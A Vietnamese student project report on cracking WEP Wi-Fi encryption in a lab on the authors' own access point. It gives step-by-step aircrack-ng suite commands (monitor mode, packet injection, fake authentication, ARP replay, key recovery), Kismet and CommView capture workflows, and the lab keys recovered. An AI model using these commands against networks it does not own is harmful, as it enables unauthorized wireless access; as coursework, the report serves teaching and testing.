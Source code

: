 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: WEP Cracking**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **I. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Máy attacker hệ điêu hành kali 20201b
#### **II. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **III. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```\
Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
```airodump-ng wlan0mon```\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon```\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon```\
Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon```\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng [tên file capture đã bắt ở trên]```\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image004.png)

Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)

Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
```airodump-ng wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image006.png)

Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image007.png)

Bước 5: Bắt các IV được sinh ra từ Access point\
```airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image008.png)

Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image009.png)

Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image010.png)

Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng WEPcrack-01.cap```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image011.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image012.png)

* ==> tìm được key : _*KietKhe.@/;\
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image013.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image014.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image015.png)

#### **II.Sử dụng công cụ kismet và aircrack-ng để tìm password**
* Bước 1: Vào file **/etc/kismet/kismet_logging.conf** sửa file:

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/fileCauHinh.png)

* Bước 2: Bật chế độ monitor
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)

* Bước 3: Chạy kismet và một lúc để bắt đủ số lượng gói tin
```sudo kismet -c wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/Screenshot_2020-06-30_10-34-02.png)

* Bước 4: Chuyển file pcapng thành pcap bằng wireshark ( Mở file pcapng lên bằng wireshark và lưu lại thành file pcap)
* Bước 5: Dùng aircrack-ng để tìm password
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/ap.png)

![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/PASS.png)

#### **III.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image016.png)

Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image017.png)

Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image018.png)

Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image019.png)

Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image020.png)

Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image021.png)

Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] 

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image022.png)

==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image023.png)

